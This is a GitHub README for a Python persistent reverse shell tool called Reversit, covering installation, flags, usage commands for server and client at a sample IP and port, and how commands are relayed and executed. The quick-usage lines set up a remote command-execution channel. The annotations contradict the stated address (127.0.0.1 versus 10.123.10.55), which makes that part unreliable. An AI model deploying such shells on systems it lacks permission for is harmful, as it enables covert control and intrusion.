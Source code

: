 # ![Reversit](/img/Reversit.png)
## Persistent Reverse Shell Written in Python 3
## 🔧 Installation
 You will need:
 * Python version 3.10
 * Pip 3 for the client computer
### macOS & Linux
 1. Clone the repository from github: `git clone https://github.com/Brandonli-13/Reversit.git`
 2. Change to Reversit directory: `cd Reversit/`
 3. Make `install` executable: `chmod +x ./install`
 4. Run `./install`: `./install`

## 🔨 Usage
### Flags
 `-h`, `--help`: Display help message
 `-a`, `--address`: Set IP address to connect to (client) / IP address to listen for a connection on (server)<br/>
 `-p`, `--port`: Set port number to connect to (client) / port number to listen for a connection on (server)<br/>
 `-b`, `--buffer`: Set buffer size, default: 131072 (bytes)<br/>
 `-s`, `--separator`: Set separator between type of request and data, default: \<separator\><br/>
 `-l`, `--listen`: Listen for incoming connections<br/>

### Quick Usage
 Server: `reversit -a 10.123.10.55 -p 7258 -b -s -l`
 Client: `reversit -a 10.123.10.55 -p 7258 -b -s`

## 🪛 Features
* When the client side closes connection, the server will keep on listening for another connection
* Ability to change directory
* Upload file

## Contributing
Contributions are welcome. Read [this](https://gist.github.com/MarcDiethelm/7303312#file-contributing-md) before contributing to this program.

## ⚙️ How Reversit Works
1. Server: `reversit -a 10.123.10.55 -p 7258 -b -s -l` <-- Starts listening on 127.0.0.1:7258
2. Client: `reversit -a 10.123.10.55 -p 7258 -b -s` <-- Connects to server on 127.0.0.1:7258
3. Client: `ls` <-- Sends `command<separator>ls` to server
4. Server: Recognizes `command` before separator and executes command
5. Server: Sends command output (stdout) to client
6. Client: Displays output
